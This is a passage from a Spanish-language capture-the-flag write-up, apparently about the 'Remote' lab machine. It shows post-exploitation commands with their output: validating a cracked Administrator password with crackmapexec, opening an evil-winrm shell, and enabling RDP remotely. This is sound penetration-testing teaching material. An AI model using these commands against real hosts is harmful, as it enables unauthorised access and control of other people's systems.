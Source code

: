 ```

C:\Windows\system32> whoami
nt authority\system
```

Otra opción sería `conectarnos` mediante `WINRM`, para eso `validamos` las `credenciales` con `crackmapexec`

```
# crackmapexec winrm 10.129.230.172 -u 'Administrator' -p '!R3m0te!'   
SMB         10.129.230.172  5985   REMOTE           [*] Windows 10 / Server 2019 Build 17763 (name:REMOTE) (domain:remote)
HTTP        10.129.230.172  5985   REMOTE           [*] http://10.129.230.172:5985/wsman
WINRM       10.129.230.172  5985   REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
```

Nos conectamos a la máquina víctima como el usuario `Administrator`

```
# evil-winrm -u 'Administrator' -p '!R3m0te!' -i 10.129.230.172  
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
remote\administrator
```

Si queremos ver como luce el escritorio de la máquina víctima podemos `activar` el `RDP (Remote Desktop Protocol)` y usar `Remmina` para conectarnos

```
# crackmapexec smb 10.129.230.172 -u 'Administrator' -p '!R3m0te!' -M rdp -o action=enable   
SMB         10.129.230.172  445    REMOTE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False)
SMB         10.129.230.172  445    REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
RDP         10.129.230.172  445    REMOTE           [+] RDP enabled successfully
```

Abrimos `Remmina` y ponemos la `ip`

![](/assets/img/Remote/image_8.png)

